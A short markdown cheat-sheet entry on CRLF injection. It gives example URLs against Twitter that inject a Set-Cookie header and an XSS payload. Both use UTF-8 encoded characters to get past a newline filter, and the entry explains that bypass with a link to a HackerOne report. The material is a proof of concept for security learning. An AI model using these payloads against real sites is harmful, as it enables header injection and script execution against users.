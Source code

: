 # CRLF Injection

    CRLF Injection - The term CRLF refers to Carriage Return (ASCII 13, \r) Line Feed (ASCII 10, \n). 
    
    example: https://ads.twitter.com/subscriptions/mobile/landing?ref=gl-tw-tw-promote-mode?t=%0d%0aSet-Cookie:%20test
    
    Using %0a%0d to split request, and set new cookie header
    
    XSS: https://twitter.com/login?redirect_after_login=https://twitter.com:21/%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
    
* Bypass - The page will set cookie for the parameter reported_tweet_id. However, it doesn't validate strictly if it is a number. Although there is a protection against CRLF injection by detecting the presence of any NewLine character (0x0a), it can be bypassed with characters encoded in UTF-8 as the the page will try to convert them back to the original Unicode form and **extract the last byte**. For example, %E5%98%8A => U+560A => 0A. see: [hackerone - CRLF Bypass](https://hackerone.com/reports/52042) - Very Nice Bypass
